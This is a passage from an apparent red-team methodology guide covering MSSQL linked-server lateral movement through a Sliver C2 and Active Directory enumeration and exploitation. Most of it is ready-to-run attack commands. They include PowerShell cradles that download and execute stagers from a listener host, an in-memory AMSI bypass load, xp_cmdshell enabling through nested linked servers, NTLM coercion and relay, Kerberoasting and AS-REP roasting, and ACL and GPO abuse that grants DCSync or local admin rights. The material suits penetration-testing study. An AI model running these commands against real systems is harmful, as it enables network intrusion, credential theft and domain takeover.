# Two hops: sql01 -[token]-> sql02 -> sql03 sliver ([session]) > execute-assembly -t 40 /home/kali/tools/MSSQLand.exe [sql01] -c token \ -l "[sql02];[sql03]" powershell "irm http://[listener-ip]:[listener-port]/[stager].ps1 | iex" # Two hops with per-hop impersonation sliver ([session]) > execute-assembly -t 40 /home/kali/tools/MSSQLand.exe [sql01] -c token \ -l "[sql02]/[impersonate-user];[sql03]" powershell "irm http://[listener-ip]:[listener-port]/[stager].ps1 | iex" # Bidirectional path: sql01 -> sql02 -> sql01 (for local privilege escalation) sliver ([session]) > execute-assembly -t 40 /home/kali/tools/MSSQLand.exe [sql01]/[impersonate-user] -c token \ -l "[sql02];[sql01];[sql02]" powershell "irm http://[listener-ip]:[listener-port]/[stager].ps1 | iex" -
sliver ([session]) > sqlrecon -t 20 -- /auth:wintoken /h:[sql-server] /l:[linked-server] /m:enablexp sliver ([session]) > inline-execute-assembly -t 50 /home/kali/tools/SQLRecon.exe \ '/auth:wintoken /h:[sql-server] /l:[linked-server] /m:xpcmd /c:"powershell -enc [base64-cradle]"' -
mssqlpwner [user]:[password]@[sql-server] -link-name [linked-server] exec whoami mssqlpwner [user]:[password]@[sql-server] -link-name [linked-server] exec 'powershell -enc [base64-cradle]'
18.10 Privilege Escalation via Bidirectional Links
If a link is configured bidirectionally — server A links to server B, and server B links back to server A — it is possible to follow the chain A → B → A and arrive on server A with the security context of the B-to-A link. If that return link uses a sysadmin login, this constitutes a privilege escalation on server A from a low-privilege starting point on server A itself.
The double-OPENQUERY trick reveals the effective login after following the full chain before committing to code execution. Confirm sysadmin membership at the destination before enabling xp_cmdshell, then execute the Sliver stager through the same nested query path.
-- Discover effective login after A -> B -> A traversal
SELECT mylogin FROM OPENQUERY("[server-b]",
'SELECT mylogin FROM OPENQUERY("[server-a]", ''SELECT SYSTEM_USER AS mylogin'')');Methodology
-
EXEC ('sp_linkedservers') AT [server-b]; -
SELECT mylogin FROM OPENQUERY("[server-b]", 'SELECT mylogin FROM OPENQUERY("[server-a]", ''SELECT SYSTEM_USER AS mylogin'')'); -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token linkmap -
sliver ([session]) > execute-assembly -t 40 /home/kali/tools/MSSQLand.exe [sql01]/[impersonate-user] -c token \ -l "[sql02];[sql01];[sql02]" powershell "irm http://[listener-ip]:[listener-port]/[stager].ps1 | iex" -
-- Enable xp_cmdshell on server-a via the B->A path EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [server-a]') AT [server-b]; EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [server-a]') AT [server-b]; EXEC ('EXEC (''xp_cmdshell ''''powershell -enc [base64-cradle]'''';'') AT [server-a]') AT [server-b];
18.11 MSSQLand — Setup and Full Reference
MSSQLand is the recommended .NET assembly for MSSQL attack workflows in these notes. It handles impersonation across multiple linked server hops, maps link chains automatically, and wraps all common attack actions (whoami, xp_cmdshell, CLR assembly, SMB capture, PowerShell execution, database search). It is loaded into Sliver as a custom alias so it can be called as mssqland directly from any session.
18.11.1 Custom Alias Setup
- Create the alias directory:
mkdir -p ~/.sliver-client/aliases/mssqland - Create
alias.jsonin that directory with the content below - Place the compiled
MSSQLand.exein the same directory - Restart the Sliver client
{
"name": "MSSQLand",
"version": "v2.0",
"command_name": "mssqland",
"original_author": "n3rada",
"repo_url": "https://github.com/n3rada/MSSQLand",
"help": "Effortlessly navigate and conquer linked Microsoft SQL Server (MS SQL) servers",
"entrypoint": "Main",
"allow_args": true,
"default_args": "",
"is_reflective": false,
"is_assembly": true,
"files": [
{ "os": "windows", "arch": "amd64", "path": "MSSQLand.exe" },
{ "os": "windows", "arch": "386", "path": "MSSQLand.exe" }
]
}# Expected directory structure
~/.sliver-client/aliases/mssqland/
├── alias.json
└── MSSQLand.exe18.11.2 CLI Reference
MSSQLand.exe <host> -c <cred> [options] <action> [action-args]| Flag / Field | Description | Example |
|---|---|---|
<host> | SQL server hostname or IP; optional :port, /user@db | sql01, sql01/sa, sql01:1433/webuser@master |
-c token | Use current Windows token (integrated auth) | -c token |
-c local | SQL Server login with -u / -p | -c local -u sa -p [password] |
-l | Linked server chain (semicolon-separated); /user per hop for impersonation | -l "SQL02;SQL03/admin" |
whoami | Print effective login and role | whoami |
impersonate | List logins that can be impersonated | impersonate |
linkmap | Recursive link tree with effective login per hop | linkmap |
powershell "<cmd>" | Execute PowerShell via xp_cmdshell (enables it first) | powershell "irm http://[ip]/s.ps1 | iex" |
smb [ip] | Trigger UNC path callback to capture NTLMv2 | smb [listener-ip] |
databases | List all accessible databases | databases |
search [keyword] | Search table/column names for keywords | search wordpress admin |
Methodology
-
mkdir -p ~/.sliver-client/aliases/mssqland # Place alias.json and MSSQLand.exe, then restart Sliver -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token whoami sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe localhost -c token whoami -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token linkmap -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token impersonate -
sliver ([session]) > execute-assembly -t 40 /home/kali/tools/MSSQLand.exe [sql01] -c token \ -l [sql02] powershell "irm http://[listener-ip]:[listener-port]/[stager].ps1 | iex" -
sliver ([session]) > execute-assembly -t 40 /home/kali/tools/MSSQLand.exe [sql01]/[impersonate-user] -c token \ -l "[sql02]/[hop2-user];[sql03]" powershell "irm http://[listener-ip]:[listener-port]/[stager].ps1 | iex" -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token databases sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token search [keyword] sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token search [keyword] [column-keyword] -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token smb [listener-ip]
18.12 mssqlclient-ng — External Linux Client
mssqlclient-ng is a Python-based MSSQL client for use on the Kali attack machine. It supports Windows authentication, pass-the-hash, machine account PTH, and Kerberos — making it the go-to tool for initial access when operating through a SOCKS5 proxy from a Sliver session. It also supports linked server traversal with the -l flag and one-shot action mode with -a.
| Auth Mode | Command |
|---|---|
| Windows auth (password) | mssqlclient-ng [ip] -d [domain] -u [user] -p '[password]' -windows-auth |
| Pass-the-Hash (domain user) | mssqlclient-ng [ip] -d [domain] -u [user] -H ':[ntlm-hash]' -windows-auth |
| Pass-the-Hash (local user) | mssqlclient-ng [ip] -u [user] -H ':[ntlm-hash]' |
| Machine account PTH | mssqlclient-ng [ip] -d [domain] -u '[machine]$' -H ':[ntlm-hash]' -windows-auth |
| Local SQL auth | mssqlclient-ng [ip] -u [user] -p [password] |
| Kerberos (via proxychains) | proxychains mssqlclient-ng [sql-server.domain] -k |
Methodology
-
mssqlclient-ng [sql-server-ip] -d [domain] -u [user] -p '[password]' -windows-auth -
mssqlclient-ng [sql-server-ip] -d [domain] -u [user] -H ':[ntlm-hash]' -windows-auth -
mssqlclient-ng [sql-server-ip] -d [domain] -u '[machine]$' -H ':[ntlm-hash]' -windows-auth -
# In Sliver session: enable SOCKS5 sliver ([session]) > socks5 start -P [socks-port] # On Kali with proxychains configured proxychains mssqlclient-ng [sql-server.domain.com] -k -
mssqlclient-ng [sql-server-ip] -u [user] -p [password] -l "[SQL02];[SQL03]" -a whoami mssqlclient-ng [sql-server-ip] -u [user] -p [password] -l "[SQL03]" -a xpcmd "irm http://[listener-ip]/[stager].ps1 | iex" -
mssqlclient-ng [sql-server-ip] -d [domain] -u '[machine]$' -H ':[ntlm-hash]' -windows-auth \ -l "[SQL04]/[admin-user]" -a whoami
18.13 MSSQLpwner
MSSQLpwner is an interactive Python-based MSSQL exploitation framework. Its interactive mode enumerates accessible links, lets you select a chain UUID, and then runs commands through that chain. It supports Windows auth, pass-the-hash, and machine account credentials. It is particularly useful when exploring complex link topologies interactively before scripting the attack.
Methodology
-
mssqlpwner [domain]/[user]:[password]@[sql-server-ip] -windows-auth interactive enumerate -
mssqlpwner ./[user]@[sql-server-ip] -hashes ':[ntlm-hash]' -windows-auth interactive enumerate mssqlpwner [domain]/[machine]$@[sql-server-ip] -hashes ':[ntlm-hash]' -windows-auth interactive enumerate -
mssqlpwner [user]:[password]@[sql-server-ip] interactive enumerate -
mssqlpwner [user]:[password]@[sql-server-ip] -link-name [linked-server] exec whoami mssqlpwner [user]:[password]@[sql-server-ip] -link-name [linked-server] exec hostname -
mssqlpwner [user]:[password]@[sql-server-ip] -link-name [linked-server] \ exec 'powershell -enc [base64-cradle]' -
# Inside MSSQLpwner interactive shell get-chain-list set-chain [chain-uuid] exec "whoami /all" exec 'powershell -enc [base64-cradle]'
18.14 SQLRecon — Reference
SQLRecon is a .NET MSSQL reconnaissance and exploitation framework executed via execute-assembly or inline-execute-assembly from Sliver. It covers enumeration, impersonation, xp_cmdshell, CLR assemblies, and linked server queries through a module system (/m: flag). Its primary limitation is that impersonation cannot be chained across linked server hops — use MSSQLand for multi-hop impersonation scenarios.
Module (/m:) | Description | Example Flag |
|---|---|---|
whoami | Current login, user, and role | /m:whoami |
info | Server version and configuration | /m:info |
impersonate | List impersonable logins | /m:impersonate |
enablexp | Enable xp_cmdshell | /m:enablexp |
xpcmd | Execute command via xp_cmdshell | /m:xpcmd /c:"[cmd]" |
query | Run arbitrary SQL query | /m:query /command:"[sql]" |
links | Enumerate linked servers | /m:links |
checkrpc | Check if RPC Out is enabled on a link | /l:[linked] /m:checkrpc |
Methodology
-
sliver ([session]) > sqlrecon -- /enum:sqlspns -
sliver ([session]) > sqlrecon -- /auth:wintoken /h:[sql-server] /m:whoami sliver ([session]) > sqlrecon -- /auth:Local /u:[user] /p:[password] /h:[sql-server] /m:whoami -
sliver ([session]) > sqlrecon -- /auth:wintoken /h:[sql-server] /m:impersonate -
sliver ([session]) > sqlrecon -- /auth:wintoken /h:[sql-server] /m:enablexp sliver ([session]) > sqlrecon -- /auth:wintoken /h:[sql-server] /m:xpcmd /i:sa /c:whoami -
sliver ([session]) > inline-execute-assembly -t 20 /home/kali/tools/SQLRecon.exe \ '/auth:wintoken /h:[sql-server] /m:xpcmd /c:"powershell -enc [base64-cradle]"' -
sliver ([session]) > sqlrecon -t 20 -- /auth:wintoken /h:[sql-server] /l:[linked-server] /m:whoami sliver ([session]) > sqlrecon -t 20 -- /auth:wintoken /h:[sql-server] /l:[linked-server] /m:checkrpc sliver ([session]) > sqlrecon -t 20 -- /auth:wintoken /h:[sql-server] /l:[linked-server] /m:enablexp -
sliver ([session]) > inline-execute-assembly -t 50 /home/kali/tools/SQLRecon.exe \ '/auth:wintoken /h:[sql-server] /l:[linked-server] /m:xpcmd /c:"powershell -enc [base64-cradle]"'
18.15 PowerUpSQL
PowerUpSQL is a PowerShell module covering MSSQL enumeration, privilege escalation, UNC path injection, and OS command execution. It is best used as a fallback when .NET assembly execution is not viable, or for quick exploration in a PowerShell session from Sliver. Load it in memory to avoid dropping files to disk, combined with an AMSI bypass.
Methodology
-
sliver ([session]) > shellIEX(New-Object Net.WebClient).DownloadString("http://[listener-ip]/amsi.txt") IEX(New-Object Net.WebClient).DownloadString("http://[listener-ip]/PowerUpSQL.ps1") -
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | Where-Object { $_.Status -eq "Accessible" } -
Get-SQLQuery -Instance "[sql-server]" -Query "SELECT SYSTEM_USER" Get-SQLQuery -Instance "[sql-server]" -Query "SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;" Get-SQLQuery -Instance "[sql-server]" -Query "EXECUTE AS LOGIN = 'sa'; SELECT SYSTEM_USER;" -
Invoke-SQLEscalatePriv -Verbose -Instance [sql-server] -
Invoke-SQLOSCmd -Instance [sql-server] -Command "whoami" Invoke-SQLOSCmd -Instance [sql-server] -Command "powershell -enc [base64-cradle]" -
Invoke-SQLUncPathInjection -Instance [sql-server] -Verbose -CaptureIp [listener-ip]
18.16 Full Attack Flow Summary
The typical MSSQL attack path progresses from AD enumeration through code execution to lateral movement via linked servers. Each phase builds on the previous one, and the tools can be mixed depending on what is available and what defenses are in place.
| Phase | Goal | Primary Tool | Fallback |
|---|---|---|---|
| Enumeration | Discover MSSQL instances, service accounts | SQLRecon /enum:sqlspns | setspn, PowerUpSQL |
| Auth check | Confirm access, current login and role | MSSQLand whoami | mssqlclient-ng, custom C# |
| UNC capture | Capture NTLMv2 of service account | MSSQLand smb [ip] + Responder | PowerUpSQL Invoke-SQLUncPathInjection |
| Hash relay | Code execution without cracking hash | ntlmrelayx + Sliver stager | Crack with hashcat then PTH |
| Privilege escalation | Gain sysadmin from public role | MSSQLand impersonate | SQLRecon /m:impersonate, PowerUpSQL |
| Code execution | OS shell as service account | MSSQLand powershell | SQLRecon xpcmd, sp_OACreate, CLR assembly |
| Link discovery | Map linked servers and effective logins | MSSQLand linkmap | SQLRecon /m:links, manual OPENQUERY |
| Lateral movement | Code execution on linked/chained servers | MSSQLand -l [chain] | mssqlclient-ng -l, MSSQLpwner -link-name |
| External access | Connect from Kali via proxy/PTH/Kerberos | mssqlclient-ng | MSSQLpwner |
19. Active Directory Enumeration
Active Directory enumeration is an assumed-breach workflow: start with the identity and host you control, map the domain through LDAP, SMB, Kerberos, DNS, and RPC, then repeat enumeration after every new credential, token, host, or group membership. The goal is to identify users, groups, computers, sessions, shares, ACLs, delegation, trusts, and credential exposure that can become an attack path.
19.1 Domain Model and High-Value Objects
Active Directory stores users, groups, computers, organizational units, GPOs, trusts, and service accounts as directory objects. Domain Controllers hold the directory database and provide LDAP, Kerberos, SMB, DNS, and RPC services. High-value targets include Domain Admins, Enterprise Admins, DC computer accounts, krbtgt, privileged service accounts, delegated admin groups, local admin groups pushed by GPO, and any object with unusual ACL rights.
| Object / Concept | Why It Matters | What to Enumerate |
|---|---|---|
| Domain Controller | LDAP/Kerberos authority and AD database host | Hostname, IP, site, reachable ports, SMB signing, time skew |
| Domain Admins | Full control over one domain | Members, nested groups, active sessions, adminCount users |
| Enterprise Admins | Forest-wide control from root domain | Root-domain membership and cross-domain paths |
| krbtgt | Signs TGTs; golden ticket material | Only after DA/DCSync level access |
| Service accounts | SPNs produce Kerberoastable tickets | SPNs, encryption type, group membership, delegation |
| GPOs / SYSVOL | Configure local admins, scripts, security settings | Groups.xml, scripts, gpcfilesyspath, writable GPOs |
| ACLs | Often expose non-obvious privilege paths | GenericAll, GenericWrite, WriteDACL, WriteOwner, ForceChangePassword, AddMember |
| Trusts | Extend authentication between domains/forests | Direction, transitivity, target SIDs, foreign group membership |
Methodology
-
whoami /all hostname set USERDNSDOMAIN set LOGONSERVER nltest /dsgetdc:[domain] ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).PdcRoleOwner.Name -
sudo ntpdate -q [dc-ip] nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sV -Pn [dc-ip]
19.2 Network, DNS, and Service Discovery
Domain Controllers and domain-joined hosts expose predictable services. DNS points clients to LDAP and Kerberos endpoints through SRV records. SMB exposes SYSVOL/NETLOGON and reveals signing configuration. Kerberos requires correct time, and many attacks fail if the attacker clock differs from the DC by more than a few minutes.
| Port | Service | Enumeration Value |
|---|---|---|
| 53 | DNS | Domain zones, SRV records, DC discovery |
| 88 | Kerberos | User enumeration, AS-REP roasting, ticket operations |
| 135/593 | RPC | Endpoint mapping, coercion surface, remote management |
| 389/636 | LDAP/LDAPS | Users, groups, computers, ACLs, delegation, LAPS, trusts |
| 445 | SMB | Shares, SYSVOL, NETLOGON, signing, local admin checks |
| 464 | Kerberos password change | Password reset/change workflows |
| 3268/3269 | Global Catalog | Forest-wide object search |
| 5985/5986 | WinRM | Remote PowerShell lateral movement |
Methodology
-
dig @[dc-ip] [domain] dig @[dc-ip] _ldap._tcp.dc._msdcs.[domain] SRV dig @[dc-ip] _kerberos._tcp.[domain] SRV -
nxc smb [dc-ip] -u [user] -p '[password]' --shares nxc smb [subnet]/24 -u [user] -p '[password]' smbclient -L //[dc-ip] -U '[domain]/[user]%[password]' -
smbclient //[dc-ip]/SYSVOL -U '[domain]/[user]%[password]' -c 'recurse; ls' smbclient //[dc-ip]/NETLOGON -U '[domain]/[user]%[password]' -c 'recurse; ls'
19.3 Manual Windows Enumeration
Built-in Windows tooling is noisy but reliable and often available before offensive tooling can be staged. Use it to establish users, groups, domain controllers, trusts, sessions, and local privileges. Prefer RDP for interactive domain enumeration when possible because WinRM can run into Kerberos double-hop limitations.
Methodology
-
net user /domain net user [user] /domain net group /domain net group "Domain Admins" /domain net group "Enterprise Admins" /domain net group "Group Policy Creator Owners" /domain -
nltest /dclist:[domain] nltest /dsgetdc:[domain] nltest /trusted_domains net view /domain net view /domain:[domain] -
whoami /priv whoami /groups quser qwinsta Test-NetConnection [host] -Port 445 Test-NetConnection [host] -Port 5985
19.4 LDAP, ADSI, and .NET Enumeration
LDAP is the core protocol for querying Active Directory. ADSI and .NET classes allow LDAP enumeration without RSAT. A complete LDAP path includes the host and distinguished name, such as LDAP://DC01/DC=corp,DC=com. Query the PDC when possible to avoid stale results.
| LDAP Filter | Finds |
|---|---|
(objectClass=user) | User objects |
(objectClass=group) | Groups |
(objectClass=computer) | Domain computers |
(servicePrincipalName=*) | Kerberoastable service accounts |
(userAccountControl:1.2.840.113556.1.4.803:=4194304) | Users with Kerberos pre-authentication disabled |
(ms-MCS-AdmPwd=*) | Readable LAPS passwords |
(msDS-AllowedToDelegateTo=*) | Constrained delegation |
(userAccountControl:1.2.840.113556.1.4.803:=524288) | Unconstrained delegation |
Methodology
-
ldapsearch -x -H ldap://[dc-ip] -D '[domain]\\[user]' -w '[password]' -b 'DC=[domain],DC=[tld]' '(objectClass=user)' sAMAccountName memberOf ldapsearch -x -H ldap://[dc-ip] -D '[domain]\\[user]' -w '[password]' -b 'DC=[domain],DC=[tld]' '(servicePrincipalName=*)' sAMAccountName servicePrincipalName -
$domain = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain() $root = "LDAP://$($domain.PdcRoleOwner.Name)/$(([adsi]'').distinguishedName)" $searcher = New-Object System.DirectoryServices.DirectorySearcher([adsi]$root) $searcher.Filter = '(servicePrincipalName=*)' $searcher.FindAll() | ForEach-Object { $_.Properties.samaccountname }
19.5 PowerView Enumeration
PowerView wraps LDAP, Win32, and .NET enumeration into concise functions. Use it to map users, groups, computers, OUs, GPOs, ACLs, delegation, sessions, local admins, trusts, and cross-domain membership. Treat each new credential context as a reason to rerun key PowerView checks.
Methodology
-
Import-Module .\PowerView.ps1 Get-Domain Get-DomainController Get-DomainPolicyData Get-DomainUser -Properties samaccountname,description,memberof,lastlogontimestamp,serviceprincipalname Get-DomainGroup -Properties name,member Get-DomainComputer -Properties dnshostname,operatingsystem,lastlogontimestamp -
Get-DomainGroupMember "Domain Admins" -Recurse Get-DomainGroupMember "Enterprise Admins" -Recurse Get-DomainUser -AdminCount Get-DomainUser -LDAPFilter '(description=*)' -Properties samaccountname,description -
Find-DomainUserLocation Find-LocalAdminAccess -Verbose Get-NetSession -ComputerName [host] Get-NetLoggedon -ComputerName [host] -
Find-InterestingDomainAcl -ResolveGUIDs Get-DomainObjectAcl -Identity [target] -ResolveGUIDs Get-DomainObjectAcl -SearchBase "LDAP://DC=[domain],DC=[tld]" -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match 'GenericAll|GenericWrite|WriteDacl|WriteOwner|AllExtendedRights'} -
Get-DomainUser -SPN -Properties samaccountname,serviceprincipalname Get-DomainUser -PreauthNotRequired Get-DomainComputer -Unconstrained Get-DomainUser -TrustedToAuth Get-DomainComputer -TrustedToAuth
19.6 Shares, SYSVOL, GPOs, and LAPS
SYSVOL is readable by domain users and often exposes logon scripts, deployment scripts, and Group Policy Preference files. Modern GPP should not expose recoverable cpassword secrets, but legacy environments still do. LAPS stores per-machine local administrator passwords in AD attributes; the expiration attribute is broadly readable, while the password attribute requires delegated read rights.
Methodology
-
smbclient //[dc-ip]/SYSVOL -U '[domain]/[user]%[password]' -c 'recurse; prompt off; mget *' find SYSVOL -iname '*.xml' -o -iname '*.ps1' -o -iname '*.bat' -o -iname '*.vbs' | sort grep -RniE 'password|cpassword|user|pass|cred' SYSVOL -
Get-DomainGPO | select displayname,gpcfilesyspath Get-DomainOU | Get-DomainGPOLocalGroup Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators -
Get-DomainComputer -LDAPFilter '(ms-mcs-admpwdexpirationtime=*)' -Properties dnshostname,ms-mcs-admpwdexpirationtime Get-DomainComputer -LDAPFilter '(ms-MCS-AdmPwd=*)' -Properties dnshostname,ms-MCS-AdmPwd Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? {$_.ObjectAceType -match 'ms-Mcs-AdmPwd|All'} -
Import-Module .\LAPSToolkit.ps1 Find-LAPSDelegatedGroups Find-AdmPwdExtendedRights Get-LAPSComputers
19.7 BloodHound and SharpHound
BloodHound turns AD relationships into attack paths. SharpHound collects LDAP, SMB, session, ACL, group, local admin, trust, and delegation data. If endpoint controls block collection on Windows, use bloodhound-python remotely from Kali with valid credentials.
| Collection | Purpose |
|---|---|
All | Broad assumed-breach collection |
DCOnly | Lower-noise LDAP-centric collection |
ACL | Object control and privilege escalation edges |
Session | Where users are logged on |
LoggedOn | Active local logon data where accessible |
Trusts | Domain and forest trust relationships |
Methodology
-
. .\SharpHound.ps1 Invoke-BloodHound -CollectionMethod All -Domain [domain] -OutputDirectory C:\Windows\Tasks .\SharpHound.exe -c All -d [domain] --zipfilename loot.zip -
bloodhound-python -u [user] -p '[password]' -d [domain] -ns [dc-ip] -c all --zip -
19.8 Trust and Forest Enumeration
Trusts determine whether authentication can cross domain or forest boundaries. Direction matters: outbound means the current domain trusts the target, while inbound means the target trusts the current domain. Parent-child trusts inside a forest are transitive and can become forest-compromise paths after one domain is fully compromised.
Methodology
-
nltest /trusted_domains ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships() Get-DomainTrust Get-DomainTrust -API Get-DomainTrust -NET Get-DomainTrustMapping -
Get-DomainUser -Domain [trusted-domain] Get-DomainGroupMember "Enterprise Admins" -Domain [root-domain] -Recurse Get-DomainForeignGroupMember -Domain [trusted-domain] Get-DomainSID -Domain [domain] Get-DomainSID -Domain [root-domain] -
Invoke-BloodHound -CollectionMethod All -SearchForest .\SharpHound.exe -c All --searchforest
19.9 Enumeration Workflow
The enumeration loop is the important part: enumerate, identify an edge, exploit or pivot, then enumerate again from the new perspective. A new user may have different group memberships, ACL rights, LAPS read access, GPO scope, sessions, or trust visibility.
Active Directory Mindmap

Methodology
20. Active Directory Exploitation
Active Directory exploitation turns enumeration findings into access. The main attack families are Kerberos roasting, NTLM capture and relay, ACL abuse, delegation abuse, lateral movement with hashes or tickets, domain credential extraction, forest trust abuse, and bypassing AD-adjacent hardening such as JEA and JIT.
20.1 Authentication Attack Map
| Finding | Attack | Output | Next Step |
|---|---|---|---|
| Pre-auth disabled user | AS-REP roast | Crackable AS-REP hash | Crack password, login/spray |
| SPN on user/service account | Kerberoast | Crackable TGS hash | Crack password, lateral move |
| Writable SPN | Targeted Kerberoast | Crackable TGS for target user | Restore SPN after roast |
| SMB signing disabled | NTLM relay | LDAP/SMB/MSSQL action or shell | Coerce or capture auth |
| Reusable NT hash | Pass-the-hash | SMB/WinRM/WMI access | Dump creds, pivot |
| NT hash + Kerberos available | Overpass-the-hash | TGT in cache | Kerberos-based lateral movement |
| TGT/TGS in memory | Pass-the-ticket | Impersonated Kerberos session | Access services by hostname/SPN |
| Replication rights | DCSync | NTLM hashes and Kerberos keys | Golden ticket, PTH, cracking |
Methodology
-
sudo ntpdate [dc-ip] echo '[dc-ip] [dc-host].[domain] [dc-host]' | sudo tee -a /etc/hosts -
dir \\[host].[domain]\c$ klist
20.2 AS-REP Roasting
AS-REP roasting abuses users with Kerberos pre-authentication disabled. Anyone can request an AS-REP for those accounts, then crack the encrypted blob offline. Targeted AS-REP roasting is possible if you can modify a victim user's userAccountControl to disable pre-authentication, but that change should be reverted immediately.
Methodology
-
# Unauthenticated user list mode: test names from users.txt for pre-auth disabled accounts impacket-GetNPUsers [domain]/ -dc-ip [dc-ip] -usersfile users.txt -format hashcat -outputfile asrep.hashes # Authenticated domain query mode: use valid credentials to find and request roastable AS-REP hashes impacket-GetNPUsers [domain]/[user]:'[password]' -dc-ip [dc-ip] -request -format hashcat -outputfile asrep.hashes # Crack the collected AS-REP hashes offline hashcat -m 18200 asrep.hashes /usr/share/wordlists/rockyou.txt -r rules/best64.rule -
Get-DomainUser -PreauthNotRequired .\Rubeus.exe asreproast /nowrap /outfile:asrep.hashes
20.3 Kerberoasting
Kerberoasting requests a service ticket for an SPN. The returned TGS is encrypted with the service account key, allowing offline password cracking. The best targets are user-backed service accounts with weak passwords and RC4 enabled. If you control a user's SPN attribute, set a temporary SPN and roast it.
Methodology
-
impacket-GetUserSPNs [domain]/[user]:'[password]' -dc-ip [dc-ip] -request -outputfile kerberoast.hashes hashcat -m 13100 kerberoast.hashes /usr/share/wordlists/rockyou.txt -r rules/best64.rule -
Get-DomainUser -SPN -Properties samaccountname,serviceprincipalname .\Rubeus.exe kerberoast /simple /nowrap /outfile:kerberoast.hashes -
Set-DomainObject -Identity [target-user] -Set @{serviceprincipalname='http/temp'} .\Rubeus.exe kerberoast /user:[target-user] /nowrap Set-DomainObject -Identity [target-user] -Clear serviceprincipalname -
python3 targetedKerberoast.py -d [domain] -u [user] -p '[password]' --dc-ip [dc-ip] --request-user [target-user]
20.4 NTLM Capture and Relay
NTLM capture coerces or tricks a host into authenticating to the attacker. The captured Net-NTLMv2 can be cracked offline. If SMB signing is disabled or a relayable target exists, relay can turn that authentication into access without cracking. Relay value depends on the target protocol and the privileges of the coerced identity.
Methodology
-
sudo responder -I tun0 hashcat -m 5600 netntlmv2.hashes /usr/share/wordlists/rockyou.txt -
nxc smb [subnet]/24 -u [user] -p '[password]' --gen-relay-list relay-targets.txt -
# Relay captured NTLM to SMB targets from a generated target file impacket-ntlmrelayx -tf relay-targets.txt -smb2support # Relay to LDAP and create resource-based constrained delegation for computer-account takeover impacket-ntlmrelayx -t ldap://[dc-ip] --delegate-access -smb2support # Relay to LDAPS and grant escalation rights to a controlled user impacket-ntlmrelayx -t ldaps://[dc-ip] --escalate-user [user] -smb2support -
coercer coerce --target-ip [target-ip] -l [attacker-ip] -u [user] -p '[password]' printerbug.py [domain]/[user]:'[password]'@[target] [attacker-ip]
20.5 ACL Abuse
Object ACLs create privilege escalation paths that do not require cracking passwords. BloodHound and PowerView surface these edges, but the operator must translate the edge into the correct abuse. Always preserve the original state where practical and document every ACL modification.
| Right / Edge | Abuse | Common Command |
|---|---|---|
| GenericAll on user | Reset password, Shadow Credentials, targeted Kerberoast | Set-DomainUserPassword |
| GenericWrite on user | Set SPN, logon script, Shadow Credentials | Set-DomainObject |
| ForceChangePassword | Reset user's password | net rpc password |
| AddMember / Self | Add controlled user to group | Add-DomainGroupMember |
| WriteOwner | Take ownership, then modify DACL | Set-DomainObjectOwner |
| WriteDACL | Grant FullControl or DCSync rights | Add-DomainObjectAcl |
| GenericWrite on computer | RBCD or Shadow Credentials | Set-ADComputer, rbcd.py |
| WriteGPO / GP-Link | Push local admin or scheduled task | SharpGPOAbuse, pyGPOAbuse |
Methodology
-
$pass = ConvertTo-SecureString '[new-password]' -AsPlainText -Force Set-DomainUserPassword -Identity [target-user] -AccountPassword $passnet rpc password [target-user] '[new-password]' -U '[domain]/[user]%[password]' -S [dc-ip] -
Add-DomainGroupMember -Identity '[target-group]' -Members '[controlled-user]'bloodyAD --host [dc-ip] -d [domain] -u [user] -p '[password]' add groupMember '[target-group]' [controlled-user] -
Set-DomainObjectOwner -Identity [target] -OwnerIdentity [controlled-user] Add-DomainObjectAcl -TargetIdentity [target] -PrincipalIdentity [controlled-user] -Rights Allpython3 owneredit.py -action write -new-owner [controlled-user] -target [target] -dc-ip [dc-ip] [domain]/[user]:'[password]' python3 dacledit.py -action write -rights FullControl -principal [controlled-user] -target [target] -dc-ip [dc-ip] [domain]/[user]:'[password]' -
Add-DomainObjectAcl -TargetIdentity 'DC=[domain],DC=[tld]' -PrincipalIdentity [controlled-user] -Rights DCSync -
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount [domain]\[user] --GPOName '[gpo-name]'python3 pygpoabuse.py [domain]/[user]:'[password]' -gpo-id [gpo-guid] -command 'net localgroup administrators [domain]\[user] /add' -dc-ip [dc-ip]
20.6 Kerberos Delegation Abuse
Kerberos delegation solves the double-hop problem by allowing a service to access a backend resource on behalf of a user. Misconfiguration can expose high-value tickets or allow an attacker to impersonate users to specific services.
| Delegation Type | Enumeration Signal | Abuse |
|---|---|---|
| Unconstrained | TRUSTED_FOR_DELEGATION | Steal forwardable TGTs from the service host; coerce DC auth for DC TGT |
| Constrained | msDS-AllowedToDelegateTo | S4U2Self/S4U2Proxy to impersonate users to listed SPNs |
| RBCD | msDS-AllowedToActOnBehalfOfOtherIdentity | Write allowed-to-act on target computer, then S4U as administrator |
Methodology
-
Get-DomainComputer -Unconstrained Get-DomainUser -TrustedToAuth Get-DomainComputer -TrustedToAuth Get-DomainComputer -Properties msds-allowedtoactonbehalfofotheridentity -
.\Rubeus.exe triage .\Rubeus.exe dump /nowrap .\Rubeus.exe ptt /ticket:[base64-ticket] -
